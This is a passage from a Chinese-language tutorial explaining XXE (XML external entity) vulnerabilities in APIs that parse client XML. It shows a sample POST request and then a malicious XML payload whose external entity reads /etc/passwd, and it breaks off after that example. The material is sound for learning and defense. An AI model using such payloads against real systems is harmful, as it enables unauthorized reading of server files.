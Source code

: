 ## **五、真实的 XXE 出现在哪**

我们刚刚说了那么多，都是只是我们对这个漏洞的理解，但是好像还没说这种漏洞出现在什么地方

如今的 web 时代，是一个前后端分离的时代，有人说 MVC 就是前后端分离，但我觉得这种分离的并不彻底，后端还是要尝试去调用渲染类去控制前端的渲染，我所说的前后端分离是，后端 api 只负责接受约定好要传入的数据，然后经过一系列的黑盒运算，将得到结果以 json 格式返回给前端，前端只负责坐享其成，拿到数据json.decode 就行了（这里的后端可以是后台代码，也可以是外部的api 接口，这里的前端可以是传统意义的前端，也可以是后台代码）

那么问题经常就出现在 api 接口能解析客户端传过来的 xml 代码，并且直接外部实体的引用，比如下面这个

### **实例一：模拟情况**

**示例代码：**

```xml
POST /vulnerable HTTP/1.1
Host: www.test.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://test.com/test.html
Content-Type: application/xml
Content-Length: 294
Cookie: mycookie=cookies;
Connection: close
Upgrade-Insecure-Requests: 1

<?xml version="1.0"?>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>XML is the best!</description>
   </core>
</catalog>
```

我们发出 带有 xml 的 POST 请求以后，述代码将交由服务器的XML处理器解析。代码被解释并返回：{“Request Successful”: “Added!”} 

但是如果我们传入一个恶意的代码

```xml
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>&xxe;</description>
   </core>
</catalog>
```
